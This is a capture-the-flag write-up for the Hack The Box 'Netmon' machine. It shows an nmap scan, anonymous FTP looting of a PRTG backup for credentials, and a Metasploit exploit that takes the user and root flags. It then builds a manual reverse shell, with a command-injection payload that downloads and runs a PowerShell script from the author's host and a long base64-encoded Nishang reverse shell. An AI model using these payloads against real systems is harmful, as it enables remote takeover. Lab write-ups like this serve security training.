





# Hack The Box Netmon  
## Difficulty: Easy  
## Platform: Windows 

## Enumeration:

I'll start with a port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.230.176
```


We can see we have an FTP share (that allows anonymous login) and a web server.I'll check port 80 first.


Now I need credentials. So I'll search for the config file of PRTG. Searching for the path of this file we get "ProgramData\Paessler\PRTG Network Monitor".

```bash
ftp 10.129.230.176 
anonymous
#no password
cd ProgramData
cd Paessler
cd "PRTG Network Monitor"
ls
```



I'll get PRTG Configuration.old.bak on my system on search for credentials.

```bash
get "PRTG Configuration.old.bak"
exit
code "PRTG Configuration.old.bak"
```



I'll try these credentials on the login page.

```markdown
<!-- User: prtgadmin -->
PrTg@dmin2018
```


As the credentials were in the backup, it's safe to asume the password has changed. I'll try to change the year.


## Foothold:

It worked. Searching for "PRTG/18.1.37.13946 CVE" I found an POC that can be used in metasploit. I'll start metasploit and run the POC.

```bash
sudo msfconsole -q
search prtg
use 3
set ADMIN_PASSWORD PrTg@dmin2019
set LHOST tun0 
set LPORT 6666
set RHOSTS 10.129.230.176
run
```


Let's get the user flag.

```bash
ls
cd ..
cd ..
cd Users
cd Public
cd Desktop
cat user.txt
```

## We got the user flag!

## Privilege Escalation:

```bash
getuid
```


No need for this. We can just get the root flag.

```bash
cd ..\\..
cd Administrator\\Desktop\\
ls
cat root.txt
```

## We got the root flag!

## More than a script kitty ...

I want to manually get a reverse shell. I'll try to go through the POC.

### Authentication

We can skip this one because we have the username and password.

```markdown
Username: prtgadmin
Password: PrTg@dmin2019
```

### Executing commands on target system

In the account settings notifications I can set a program to be executed when receiving a notification.





So now I'll just make a reverse shell.

On host:

```bash
rlwrap nc -lnvp 6666
```
In another terminal I'll get a ps1 reverse shell and start a http server.

```bash
sudo apt-get install nishang 
cp /usr/share/windows-resources/nishang/Shells/Invoke-PowerShellTcp.ps1 .
#I modified it so that it makes a reverse shell to my IP and also changed it's name
python3 -m http.server -b10.10.14.85
```

Payload:
```bash
test|IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.85:8000/Shell.ps1')
```

#### No shell :(

I'll try encoding the shell and using it as the payload.

```bash
cat Shell.ps1 | iconv -t UTF-16LE | base 64 -w0 | xclip -selection ZgB1AG4AYwB0AGkAbwBuACAASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwACAACgB7ACAACgA8ACMACgAuAFMAWQBOAE8AUABTAEkAUwAKAE4AaQBzAGgAYQBuAGcAIABzAGMAcgBpAHAAdAAgAHcAaABpAGMAaAAgAGMAYQBuACAAYgBlACAAdQBzAGUAZAAgAGYAbwByACAAUgBlAHYAZQByAHMAZQAgAG8AcgAgAEIAaQBuAGQAIABpAG4AdABlAHIAYQBjAHQAaQB2AGUAIABQAG8AdwBlAHIAUwBoAGUAbABsACAAZgByAG8AbQAgAGEAIAB0AGEAcgBnAGUAdAAuACAACgAKAC4ARABFAFMAQwBSAEkAUABUAEkATwBOAAoAVABoAGkAcwAgAHMAYwByAGkAcAB0ACAAaQBzACAAYQBiAGwAZQAgAHQAbwAgAGMAbwBuAG4AZQBjAHQAIAB0AG8AIABhACAAcwB0AGEAbgBkAGEAcgBkACAAbgBlAHQAYwBhAHQAIABsAGkAcwB0AGUAbgBpAG4AZwAgAG8AbgAgAGEAIABwAG8AcgB0ACAAdwBoAGUAbgAgAHUAcwBpAG4AZwAgAHQAaABlACAALQBSAGUAdgBlAHIAcwBlACAAcwB3AGkAdABjAGgALgAgAAoAQQBsAHMAbwAsACAAYQAgAHMAdABhAG4AZABhAHIAZAAgAG4AZQB0AGMAYQB0ACAAYwBhAG4AIABjAG8AbgBuAGUAYwB0ACAAdABvACAAdABoAGkAcwAgAHMAYwByAGkAcAB0ACAAQgBpAG4AZAAgAHQAbwAgAGEAIABzAHAAZQBjAGkAZgBpAGMAIABwAG8AcgB0AC4ACgAKAFQAaABlACAAcwBjAHIAaQBwAHQAIABpAHMAIABkAGUAcgBpAHYAZQBkACAAZgByAG8AbQAgAFAAbwB3AGUAcgBmAHUAbgAgAHcAcgBpAHQAdABlAG4AIABiAHkAIABCAGUAbgAgAFQAdQByAG4AZQByACAAJgAgAEQAYQB2AGUAIABIAGEAcgBkAHkACgAKAC4AUABBAFIAQQBNAEUAVABFAFIAIABJAFAAQQBkAGQAcgBlAHMAcwAKAFQAaABlACAASQBQACAAYQBkAGQAcgBlAHMAcwAgAHQAbwAgAGMAbwBuAG4AZQBjAHQAIAB0AG8AIAB3AGgAZQBuACAAdQBzAGkAbgBnACAAdABoAGUAIAAtAFIAZQB2AGUAcgBzAGUAIABzAHcAaQB0AGMAaAAuAAoACgAuAFAAQQBSAEEATQBFAFQARQBSACAAUABvAHIAdAAKAFQAaABlACAAcABvAHIAdAAgAHQAbwAgAGMAbwBuAG4AZQBjAHQAIAB0AG8AIAB3AGgAZQBuACAAdQBzAGkAbgBnACAAdABoAGUAIAAtAFIAZQB2AGUAcgBzAGUAIABzAHcAaQB0AGMAaAAuACAAVwBoAGUAbgAgAHUAcwBpAG4AZwAgAC0AQgBpAG4AZAAgAGkAdAAgAGkAcwAgAHQAaABlACAAcABvAHIAdAAgAG8AbgAgAHcAaABpAGMAaAAgAHQAaABpAHMAIABzAGMAcgBpAHAAdAAgAGwAaQBzAHQAZQBuAHMALgAKAAoALgBFAFgAQQBNAFAATABFAAoAUABTACAAPgAgAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAgAC0AUgBlAHYAZQByAHMAZQAgAC0ASQBQAEEAZABkAHIAZQBzAHMAIAAxADkAMgAuADEANgA4AC4AMgA1ADQALgAyADIANgAgAC0AUABvAHIAdAAgADQANAA0ADQACgAKAEEAYgBvAHYAZQAgAHMAaABvAHcAcwAgAGEAbgAgAGUAeABhAG0AcABsAGUAIABvAGYAIABhAG4AIABpAG4AdABlAHIAYQBjAHQAaQB2AGUAIABQAG8AdwBlAHIAUwBoAGUAbABsACAAcgBlAHYAZQByAHMAZQAgAGMAbwBuAG4AZQBjAHQAIABzAGgAZQBsAGwALgAgAEEAIABuAGUAdABjAGEAdAAvAHAAbwB3AGUAcgBjAGEAdAAgAGwAaQBzAHQAZQBuAGUAcgAgAG0AdQBzAHQAIABiAGUAIABsAGkAcwB0AGUAbgBpAG4AZwAgAG8AbgAgAAoAdABoAGUAIABnAGkAdgBlAG4AIABJAFAAIABhAG4AZAAgAHAAbwByAHQALgAgAAoACgAuAEUAWABBAE0AUABMAEUACgBQAFMAIAA+ACAASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwACAALQBCAGkAbgBkACAALQBQAG8AcgB0ACAANAA0ADQANAAKAAoAQQBiAG8AdgBlACAAcwBoAG8AdwBzACAAYQBuACAAZQB4AGEAbQBwAGwAZQAgAG8AZgAgAGEAbgAgAGkAbgB0AGUAcgBhAGMAdABpAHYAZQAgAFAAbwB3AGUAcgBTAGgAZQBsAGwAIABiAGkAbgBkACAAYwBvAG4AbgBlAGMAdAAgAHMAaABlAGwAbAAuACAAVQBzAGUAIABhACAAbgBlAHQAYwBhAHQALwBwAG8AdwBlAHIAYwBhAHQAIAB0AG8AIABjAG8AbgBuAGUAYwB0ACAAdABvACAAdABoAGkAcwAgAHAAbwByAHQALgAgAAoACgAuAEUAWABBAE0AUABMAEUACgBQAFMAIAA+ACAASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwACAALQBSAGUAdgBlAHIAcwBlACAALQBJAFAAQQBkAGQAcgBlAHMAcwAgAGYAZQA4ADAAOgA6ADIAMABjADoAMgA5AGYAZgA6AGYAZQA5AGQAOgBiADkAOAAzACAALQBQAG8AcgB0ACAANAA0ADQANAAKAAoAQQBiAG8AdgBlACAAcwBoAG8AdwBzACAAYQBuACAAZQB4AGEAbQBwAGwAZQAgAG8AZgAgAGEAbgAgAGkAbgB0AGUAcgBhAGMAdABpAHYAZQAgAFAAbwB3AGUAcgBTAGgAZQBsAGwAIAByAGUAdgBlAHIAcwBlACAAYwBvAG4AbgBlAGMAdAAgAHMAaABlAGwAbAAgAG8AdgBlAHIAIABJAFAAdgA2AC4AIABBACAAbgBlAHQAYwBhAHQALwBwAG8AdwBlAHIAYwBhAHQAIABsAGkAcwB0AGUAbgBlAHIAIABtAHUAcwB0ACAAYgBlAAoAbABpAHMAdABlAG4AaQBuAGcAIABvAG4AIAB0AGgAZQAgAGcAaQB2AGUAbgAgAEkAUAAgAGEAbgBkACAAcABvAHIAdAAuACAACgAKAC4ATABJAE4ASwAKAGgAdAB0AHAAOgAvAC8AdwB3AHcALgBsAGEAYgBvAGYAYQBwAGUAbgBlAHQAcgBhAHQAaQBvAG4AdABlAHMAdABlAHIALgBjAG8AbQAvADIAMAAxADUALwAwADUALwB3AGUAZQBrAC0AbwBmAC0AcABvAHcAZQByAHMAaABlAGwAbAAtAHMAaABlAGwAbABzAC0AZABhAHkALQAxAC4AaAB0AG0AbAAKAGgAdAB0AHAAcwA6AC8ALwBnAGkAdABoAHUAYgAuAGMAbwBtAC8AbgBlAHQAdABpAHQAdQBkAGUALwBwAG8AdwBlAHIAcwBoAGUAbABsAC8AYgBsAG8AYgAvAG0AYQBzAHQAZQByAC8AcABvAHcAZQByAGYAdQBuAC4AcABzADEACgBoAHQAdABwAHMAOgAvAC8AZwBpAHQAaAB1AGIALgBjAG8AbQAvAHMAYQBtAHIAYQB0AGEAcwBoAG8AawAvAG4AaQBzAGgAYQBuAGcACgAjAD4AIAAgACAAIAAgACAACgAgACAAIAAgAFsAQwBtAGQAbABlAHQAQgBpAG4AZABpAG4AZwAoAEQAZQBmAGEAdQBsAHQAUABhAHIAYQBtAGUAdABlAHIAUwBlAHQATgBhAG0AZQA9ACIAcgBlAHYAZQByAHMAZQAiACkAXQAgAFAAYQByAGEAbQAoAAoACgAgACAAIAAgACAAIAAgACAAWwBQAGEAcgBhAG0AZQB0AGUAcgAoAFAAbwBzAGkAdABpAG8AbgAgAD0AIAAwACwAIABNAGEAbgBkAGEAdABvAHIAeQAgAD0AIAAkAHQAcgB1AGUALAAgAFAAYQByAGEAbQBlAHQAZQByAFMAZQB0AE4AYQBtAGUAPQAiAHIAZQB2AGUAcgBzAGUAIgApAF0ACgAgACAAIAAgACAAIAAgACAAWwBQAGEAcgBhAG0AZQB0AGUAcgAoAFAAbwBzAGkAdABpAG8AbgAgAD0AIAAwACwAIABNAGEAbgBkAGEAdABvAHIAeQAgAD0AIAAkAGYAYQBsAHMAZQAsACAAUABhAHIAYQBtAGUAdABlAHIAUwBlAHQATgBhAG0AZQA9ACIAYgBpAG4AZAAiACkAXQAKACAAIAAgACAAIAAgACAAIABbAFMAdAByAGkAbgBnAF0ACgAgACAAIAAgACAAIAAgACAAJABJAFAAQQBkAGQAcgBlAHMAcwAsAAoACgAgACAAIAAgACAAIAAgACAAWwBQAGEAcgBhAG0AZQB0AGUAcgAoAFAAbwBzAGkAdABpAG8AbgAgAD0AIAAxACwAIABNAGEAbgBkAGEAdABvAHIAeQAgAD0AIAAkAHQAcgB1AGUALAAgAFAAYQByAGEAbQBlAHQAZQByAFMAZQB0AE4AYQBtAGUAPQAiAHIAZQB2AGUAcgBzAGUAIgApAF0ACgAgACAAIAAgACAAIAAgACAAWwBQAGEAcgBhAG0AZQB0AGUAcgAoAFAAbwBzAGkAdABpAG8AbgAgAD0AIAAxACwAIABNAGEAbgBkAGEAdABvAHIAeQAgAD0AIAAkAHQAcgB1AGUALAAgAFAAYQByAGEAbQBlAHQAZQByAFMAZQB0AE4AYQBtAGUAPQAiAGIAaQBuAGQAIgApAF0ACgAgACAAIAAgACAAIAAgACAAWwBJAG4AdABdAAoAIAAgACAAIAAgACAAIAAgACQAUABvAHIAdAAsAAoACgAgACAAIAAgACAAIAAgACAAWwBQAGEAcgBhAG0AZQB0AGUAcgAoAFAAYQByAGEAbQBlAHQAZQByAFMAZQB0AE4AYQBtAGUAPQAiAHIAZQB2AGUAcgBzAGUAIgApAF0ACgAgACAAIAAgACAAIAAgACAAWwBTAHcAaQB0AGMAaABdAAoAIAAgACAAIAAgACAAIAAgACQAUgBlAHYAZQByAHMAZQAsAAoACgAgACAAIAAgACAAIAAgACAAWwBQAGEAcgBhAG0AZQB0AGUAcgAoAFAAYQByAGEAbQBlAHQAZQByAFMAZQB0AE4AYQBtAGUAPQAiAGIAaQBuAGQAIgApAF0ACgAgACAAIAAgACAAIAAgACAAWwBTAHcAaQB0AGMAaABdAAoAIAAgACAAIAAgACAAIAAgACQAQgBpAG4AZAAKAAoAIAAgACAAIAApAAoACgAgACAAIAAgAAoAIAAgACAAIAB0AHIAeQAgAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAIAAgACMAQwBvAG4AbgBlAGMAdAAgAGIAYQBjAGsAIABpAGYAIAB0AGgAZQAgAHIAZQB2AGUAcgBzAGUAIABzAHcAaQB0AGMAaAAgAGkAcwAgAHUAcwBlAGQALgAKACAAIAAgACAAIAAgACAAIABpAGYAIAAoACQAUgBlAHYAZQByAHMAZQApAAoAIAAgACAAIAAgACAAIAAgAHsACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAGMAbABpAGUAbgB0ACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJABJAFAAQQBkAGQAcgBlAHMAcwAsACQAUABvAHIAdAApAAoAIAAgACAAIAAgACAAIAAgAH0ACgAKACAAIAAgACAAIAAgACAAIAAjAEIAaQBuAGQAIAB0AG8AIAB0AGgAZQAgAHAAcgBvAHYAaQBkAGUAZAAgAHAAbwByAHQAIABpAGYAIABCAGkAbgBkACAAcwB3AGkAdABjAGgAIABpAHMAIAB1AHMAZQBkAC4ACgAgACAAIAAgACAAIAAgACAAaQBmACAAKAAkAEIAaQBuAGQAKQAKACAAIAAgACAAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJABsAGkAcwB0AGUAbgBlAHIAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAYwBwAEwAaQBzAHQAZQBuAGUAcgBdACQAUABvAHIAdAAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAbABpAHMAdABlAG4AZQByAC4AcwB0AGEAcgB0ACgAKQAgACAAIAAgAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJABjAGwAaQBlAG4AdAAgAD0AIAAkAGwAaQBzAHQAZQBuAGUAcgAuAEEAYwBjAGUAcAB0AFQAYwBwAEMAbABpAGUAbgB0ACgAKQAKACAAIAAgACAAIAAgACAAIAB9ACAACgAKACAAIAAgACAAIAAgACAAIAAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkACgAgACAAIAAgACAAIAAgACAAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0ACgAKACAAIAAgACAAIAAgACAAIAAjAFMAZQBuAGQAIABiAGEAYwBrACAAYwB1AHIAcgBlAG4AdAAgAHUAcwBlAHIAbgBhAG0AZQAgAGEAbgBkACAAYwBvAG0AcAB1AHQAZQByAG4AYQBtAGUACgAgACAAIAAgACAAIAAgACAAJABzAGUAbgBkAGIAeQB0AGUAcwAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACIAVwBpAG4AZABvAHcAcwAgAFAAbwB3AGUAcgBTAGgAZQBsAGwAIAByAHUAbgBuAGkAbgBnACAAYQBzACAAdQBzAGUAcgAgACIAIAArACAAJABlAG4AdgA6AHUAcwBlAHIAbgBhAG0AZQAgACsAIAAiACAAbwBuACAAIgAgACsAIAAkAGUAbgB2ADoAYwBvAG0AcAB1AHQAZQByAG4AYQBtAGUAIAArACAAIgBgAG4AQwBvAHAAeQByAGkAZwBoAHQAIAAoAEMAKQAgADIAMAAxADUAIABNAGkAYwByAG8AcwBvAGYAdAAgAEMAbwByAHAAbwByAGEAdABpAG8AbgAuACAAQQBsAGwAIAByAGkAZwBoAHQAcwAgAHIAZQBzAGUAcgB2AGUAZAAuAGAAbgBgAG4AIgApAAoAIAAgACAAIAAgACAAIAAgACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQBzACwAMAAsACQAcwBlAG4AZABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApAAoACgAgACAAIAAgACAAIAAgACAAIwBTAGgAbwB3ACAAYQBuACAAaQBuAHQAZQByAGEAYwB0AGkAdgBlACAAUABvAHcAZQByAFMAaABlAGwAbAAgAHAAcgBvAG0AcAB0AAoAIAAgACAAIAAgACAAIAAgACQAcwBlAG4AZABiAHkAdABlAHMAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAnAFAAUwAgACcAIAArACAAKABHAGUAdAAtAEwAbwBjAGEAdABpAG8AbgApAC4AUABhAHQAaAAgACsAIAAnAD4AJwApAAoAIAAgACAAIAAgACAAIAAgACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQBzACwAMAAsACQAcwBlAG4AZABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApAAoACgAgACAAIAAgACAAIAAgACAAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQAKACAAIAAgACAAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJABFAG4AYwBvAGQAZQBkAFQAZQB4AHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAZABhAHQAYQAgAD0AIAAkAEUAbgBjAG8AZABlAGQAVABlAHgAdAAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHQAcgB5AAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIwBFAHgAZQBjAHUAdABlACAAdABoAGUAIABjAG8AbQBtAGEAbgBkACAAbwBuACAAdABoAGUAIAB0AGEAcgBnAGUAdAAuAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgAC0AQwBvAG0AbQBhAG4AZAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9AAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAYwBhAHQAYwBoAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAVwByAGkAdABlAC0AVwBhAHIAbgBpAG4AZwAgACIAUwBvAG0AZQB0AGgAaQBuAGcAIAB3AGUAbgB0ACAAdwByAG8AbgBnACAAdwBpAHQAaAAgAGUAeABlAGMAdQB0AGkAbwBuACAAbwBmACAAYwBvAG0AbQBhAG4AZAAgAG8AbgAgAHQAaABlACAAdABhAHIAZwBlAHQALgAiACAACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgAFcAcgBpAHQAZQAtAEUAcgByAG8AcgAgACQAXwAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAHMAZQBuAGQAYgBhAGMAawAyACAAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAJwBQAFMAIAAnACAAKwAgACgARwBlAHQALQBMAG8AYwBhAHQAaQBvAG4AKQAuAFAAYQB0AGgAIAArACAAJwA+ACAAJwAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAeAAgAD0AIAAoACQAZQByAHIAbwByAFsAMABdACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAKQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAZQByAHIAbwByAC4AYwBsAGUAYQByACgAKQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAMgAgACsAIAAkAHgACgAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACMAUgBlAHQAdQByAG4AIAB0AGgAZQAgAHIAZQBzAHUAbAB0AHMACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQAgACAACgAgACAAIAAgACAAIAAgACAAfQAKACAAIAAgACAAIAAgACAAIAAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQAKACAAIAAgACAAIAAgACAAIABpAGYAIAAoACQAbABpAHMAdABlAG4AZQByACkACgAgACAAIAAgACAAIAAgACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAbABpAHMAdABlAG4AZQByAC4AUwB0AG8AcAAoACkACgAgACAAIAAgACAAIAAgACAAfQAKACAAIAAgACAAfQAKACAAIAAgACAAYwBhAHQAYwBoAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAIAAgAFcAcgBpAHQAZQAtAFcAYQByAG4AaQBuAGcAIAAiAFMAbwBtAGUAdABoAGkAbgBnACAAdwBlAG4AdAAgAHcAcgBvAG4AZwAhACAAQwBoAGUAYwBrACAAaQBmACAAdABoAGUAIABzAGUAcgB2AGUAcgAgAGkAcwAgAHIAZQBhAGMAaABhAGIAbABlACAAYQBuAGQAIAB5AG8AdQAgAGEAcgBlACAAdQBzAGkAbgBnACAAdABoAGUAIABjAG8AcgByAGUAYwB0ACAAcABvAHIAdAAuACIAIAAKACAAIAAgACAAIAAgACAAIABXAHIAaQB0AGUALQBFAHIAcgBvAHIAIAAkAF8ACgAgACAAIAAgAH0ACgB9AAoACgBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAAIAAtAFIAZQB2AGUAcgBzAGUAIAAtAEkAUABBAGQAZAByAGUAcwBzACAAMQAwAC4AMQAwAC4AMQA0AC4AOAA1ACAALQBQAG8AcgB0ACAANgA2ADYANgAKAAoA
```



# It worked!

##  On my way out of script kitty!